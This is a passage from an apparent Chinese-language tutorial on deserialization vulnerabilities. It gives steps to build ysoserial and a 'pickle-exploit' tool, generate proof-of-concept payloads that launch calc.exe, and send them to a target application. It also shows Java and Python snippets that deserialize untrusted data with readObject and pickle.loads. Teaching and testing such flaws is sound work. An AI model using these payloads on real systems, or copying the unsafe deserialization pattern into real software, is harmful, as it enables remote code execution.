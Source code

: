 ### 4.1 工具使用
#### 4.1.1 ysoserial
`ysoserial`是一个用于生成Java反序列化漏洞利用payload的工具。使用步骤如下：
1. 下载并编译`ysoserial`：
   ```bash
   git clone https://github.com/frohoff/ysoserial.git
   cd ysoserial
   mvn clean package -DskipTests
   ```
2. 生成payload：
   ```bash
   java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "calc.exe" > payload.bin
   ```
3. 发送payload到目标应用程序。

#### 4.1.2 pickle-exploit
`pickle-exploit`是一个用于生成Python反序列化漏洞利用payload的工具。使用步骤如下：
1. 下载并安装`pickle-exploit`：
   ```bash
   git clone https://github.com/sensepost/pickle-exploit.git
   cd pickle-exploit
   pip install -r requirements.txt
   ```
2. 生成payload：
   ```bash
   python pickle-exploit.py -c "calc.exe" > payload.pkl
   ```
3. 发送payload到目标应用程序。

### 4.2 代码示例
#### 4.2.1 Java反序列化漏洞利用代码
```java
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.HashMap;
import org.apache.commons.collections.map.TransformedMap;

public class DeserializeExploit {
    public static void main(String[] args) throws Exception {
        byte[] payload = ...; // 从文件或网络获取恶意序列化数据
        ByteArrayInputStream bis = new ByteArrayInputStream(payload);
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
        ois.close();
    }
}
```

#### 4.2.2 Python反序列化漏洞利用代码
```python
import pickle

def deserialize_exploit(payload):
    pickle.loads(payload)

payload = ...  # 从文件或网络获取恶意序列化数据
deserialize_exploit(payload)
```
